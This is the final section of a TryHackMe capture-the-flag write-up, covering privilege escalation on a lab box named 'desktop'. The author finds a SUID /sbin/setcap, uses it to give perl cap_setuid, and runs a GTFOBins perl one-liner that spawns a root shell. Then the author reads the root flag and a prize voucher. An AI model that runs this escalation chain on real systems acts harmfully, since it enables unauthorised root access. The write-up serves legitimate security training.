 I try `sudo -l` again just in case but the password we just cracked doesn't work.

I forgot to check for SUID files earlier and do that now:

`find / -perm /4000 2>/dev/null`

One sticks out as out of the ordinary:

```bash
/sbin/setcap
```

`ls -al /sbin/setcap`

```bash
-rwsr-xr-x 1 root root 10232 Nov 16  2017 /sbin/setcap
```

Alright, we can work with that! We should be able to set setuid capabilities on something and get root that way.

<br>

## Root

I check a few programs before settling on perl, and looking it up on GTFO bins shows how to exploit it once I've set the capability on it.

I set cap_setuid+ep on it and then check to make sure it took with getcap. Then execute the command from GTFOBins and end up with root!

```bash
annie@desktop:/tmp$ which perl
/usr/bin/perl
annie@desktop:/tmp$ /sbin/setcap cap_setuid+ep /usr/bin/perl
annie@desktop:/tmp$ getcap /usr/bin/perl
/usr/bin/perl = cap_setuid+ep
annie@desktop:/tmp$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# whoami
root
# hostname
desktop
```

And the root flag:

`wc -c /root/root.txt`

```bash
26 /root/root.txt
```

One really cool thing the author did here that I want to point out is they bought a 1 month voucher for THM and put it in a file in the root directory for the person who got first blood on the box (or whoever redeems it first). Not only do you put together a fun box for us to use but you gave away a voucher as well.

Hats off to you good sir, that's awesome of you to do.

`cat /root/THM-Voucher.txt`

